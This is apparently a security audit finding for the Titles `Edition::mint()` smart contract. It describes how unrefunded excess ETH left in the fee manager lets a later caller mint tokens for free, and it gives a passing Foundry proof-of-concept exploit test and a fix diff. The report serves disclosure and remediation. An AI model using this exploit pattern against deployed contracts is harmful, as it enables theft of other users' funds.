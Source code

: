 Wonderful Tin Cuckoo

medium

# `Edition::mint()` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free

## Summary
`Edition::mint()` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free
## Vulnerability Detail
The user calls `Edition::mint()` and sends ETH. When the `Edition::mint()` code is executed to `FEE_MANAGER.collectMintFee()`, the corresponding ETH in the `Edition` contract will be sent to `FEE_MANAGER` contract. At this time, `address(Edition).balance == 0`. When the program executes to `_refundExcess();`, since the balance in the contract is 0, the excess ETH sent by the caller will not be refunded, and the excess ETH will remain in In `FeeManager`, at this point, the attacker can consume the ETH in the contract to mint tokens.
```js
    function mint(
        address to_,
        uint256 tokenId_,
        uint256 amount_,
        address referrer_,
        bytes calldata data_
    ) external payable override {
        // wake-disable-next-line reentrancy
@>        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, referrer_, works[tokenId_].strategy
        );


        _issue(to_, tokenId_, amount_, data_);
        _refundExcess();
    }
```

### Poc
Please add to `Edition.t.sol` and execute
```js
    function test_mintPoc() public {
        // init user
        address user = makeAddr("user");
        deal(user, 0.1 ether);
        // user mints 1 tokens
        uint256 userMintAmount = 1;
        vm.prank(user);
        edition.mint{value: 0.1 ether}(user, 1, userMintAmount, address(0), new bytes(0));
        assertEq(edition.balanceOf(user, 1), userMintAmount);
        assertEq(edition.totalSupply(1), userMintAmount);
        assertEq(address(feeManager).balance, 0.1 ether - 0.0106 ether * userMintAmount);
        assertEq(address(user).balance, 0);
        assertEq(address(0xc0ffee).balance, 0.0006 ether * userMintAmount);
        // init attacker
        address attacker = makeAddr("attacker");
        // attacker doesn't have ETH
        assertEq(attacker.balance, 0);
        uint256 attackerMintAmount = address(feeManager).balance / 0.0106 ether;
        // attacker calls mint()
        vm.prank(attacker);
        edition.mint{value: 0}(attacker, 1, attackerMintAmount, address(0), new bytes(0));
        assertEq(edition.balanceOf(attacker, 1), attackerMintAmount);
        assertEq(edition.balanceOf(user, 1), userMintAmount);
        assertEq(edition.balanceOf(attacker, 1), attackerMintAmount);
        assertEq(edition.totalSupply(1), userMintAmount + attackerMintAmount);
        assertEq(address(user).balance, 0);
        assertEq(address(attacker).balance, 0);
        assertEq(address(0xc0ffee).balance, 0.0006 ether * (userMintAmount + attackerMintAmount));
        console.log("Attacker free mint amount:", attackerMintAmount);
    }
    // [PASS] test_mintPoc() (gas: 255411)
    // Logs:
    //     Attacker free mint amount: 8
```
## Impact
`Edition::mint()` does not check and process user input, `_refundExcess()` is invalid, and an attacker can tail the transaction and consume the ETH in the contract to mint tokens for free
## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/c9d16782a7d3c15c7a759f22c9e0552d5e777ed7/wallflower-contract-v2/src/editions/Edition.sol#L228-L242
## Tool used

Manual Review

## Recommendation
Verify msg.value and send the corresponding amount
```diff
    function mint(
        address to_,
        uint256 tokenId_,
        uint256 amount_,
        address referrer_,
        bytes calldata data_
    ) external payable override {
        // wake-disable-next-line reentrancy
+       uint256 sendValue = FEE_MANAGER.getMintFee(works[tokenId_].strategy, amount_).amount;
+       if (msg.value < sendValue) revert();
+       FEE_MANAGER.collectMintFee{value: sendValue}(
-        FEE_MANAGER.collectMintFee{value: msg.value}(
            this, tokenId_, amount_, msg.sender, referrer_, works[tokenId_].strategy
        );


        _issue(to_, tokenId_, amount_, data_);
        _refundExcess();
    }
```